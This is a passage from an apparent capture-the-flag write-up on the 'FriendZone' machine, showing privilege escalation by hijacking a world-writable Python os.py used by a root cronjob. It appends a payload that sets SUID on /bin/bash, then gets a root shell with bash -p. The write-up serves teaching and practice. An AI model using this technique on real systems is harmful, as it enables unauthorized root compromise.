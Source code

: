 We found a script runing as a cronjob using pspy

```bash
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

The library os is actually writable by anyone.

```bash
friend@FriendZone:/usr/lib/python2.7$ ls -la os.py
-rwxrwxrwx 1 root root 25910 Jan 15  2019 os.py
friend@FriendZone:/usr/lib/python2.7$
```

If we add at the end of os.py file, the string:

- `system(”chmod u+s /bin/bash”)`

Next time root uses this library will set the bash with the SUID privilege.

```bash
friend@FriendZone:/usr/lib/python2.7$ ls -la /bin/bash 
-rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash
friend@FriendZone:/usr/lib/python2.7$ bash -p
bash-4.4# whoami 
root
```